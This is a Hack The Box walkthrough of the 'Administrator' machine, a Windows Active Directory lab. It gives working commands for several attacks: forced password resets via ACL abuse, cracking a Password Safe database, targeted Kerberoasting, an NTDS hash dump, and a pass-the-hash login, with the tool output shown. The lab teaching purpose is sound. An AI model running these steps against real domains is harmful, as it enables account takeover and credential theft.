


### Enumeration

Let's start with a scan to all ports:

```sh
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.61 -oG allPorts
```

Here are the open ports

```sh
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
```

once it's finished, grep the ports and copy them to later scan them with nmap looking out for the versions of the services hosted.

```sh

sudo nmap -sC -sV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.11.42 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 16:52 EDT
Nmap scan report for 10.10.11.42
Host is up (0.26s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-12 03:52:41Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

add the domain to your /etc/hosts file

```
10.10.11.61     administrator.htb dc.administrator.htb
```

Run netexec with the credentials from hackthebox

```sh
nxc winrm 10.10.11.42 -u Olivia -p ichliebedich

WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

Login to the machine using evil-winrm and run SharpHound to look for Attack paths

```sh
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
upload SharpHound.exe
```

Once you ingested the data in bloodhound, you can see that olivia has GenericAll meaning she has full control over michael's account


And Michael Can ForceChangePassword of Benjamin


To reset the password for these users you can use this commands

```sh
net rpc password "michael" 'P@ssw00rd!231!!!' -U "administrator.htb"/"Olivia"%'ichliebedich' -S dc.administrator.htb

net rpc password "benjamin" 'P@ssw00rd!555!!!' -U "administrator.htb"/"michael"%'P@ssw00rd!231!!!' -S dc.administrator.htb
```

### User Flag

With these accounts you can look for access to other services like smb or ftp

```sh
nxc ftp 10.10.11.42 -u benjamin -p 'P@ssw00rd!555!!!' --ls
FTP         10.10.11.42     21     10.10.11.42      [*] Banner: Microsoft FTP Service
FTP         10.10.11.42     21     10.10.11.42      [+] benjamin:P@ssw00rd!555!!!
FTP         10.10.11.42     21     10.10.11.42      [*] Directory Listing
FTP         10.10.11.42     21     10.10.11.42      10-05-24  09:13AM                  952 Backup.psafe3


nxc ftp 10.10.11.42 -u benjamin -p 'P@ssw00rd!555!!!' --get Backup.psafe3
```

this is a password database file that's protected by a master password, to crack that password you can use john the ripper

```sh
pwsafe2john Backup.psafe3 > psafe3.hash
john psafe3.hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)
```

with this password, open the database with passwordsafe

```sh
sudo apt install passwordsafe
pwsafe Backup.psafe3
```

you can login as emily with evil-winrm

```sh
evil-winrm -i 10.10.11.42 -u emily -p PASSWORD
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Root Flag

Looking for attack paths as emily in bloodhound you can find that she has GenericWrite access on Ethan's account, which means we can use this to do a targeted kerberoast attack to obtain the hash of ethan's account and crack it with johntheripper


Use faketime to sync your time with the DC and targetedKerberoast to execute the attack
<https://github.com/ShutdownRepo/targetedKerberoast>

```sh
faketime "$(ntpdate -q dc.administrator.htb | grep -oP '\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2}')" python targetedKerberoast.py -d "administrator.htb" -u "emily" -p "XXXXXXXXXXXXXXXXXXXXX"
```

And crack the hash with john

```sh
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Now that we have access to ethan's account, we can dump the hashes for the administrator and obtain the root flag



```sh
nxc smb 192.168.1.100 -u ethan -p 'XXXXXXXXXXXXXX' --ntds --users administrator
```

Login with evil-winrm as administrator and get the flag

```sh
evil-winrm -i 10.10.11.42 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXX
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

### Conclusion

This machine covers topics like Kerberoasting, bloodhound, DCSync / Dump Hashes, GenericWrite, GenericAll,Password Cracking and Password Database leak

<mark>Hope you enjoy it and Happy Hacking!</mark>
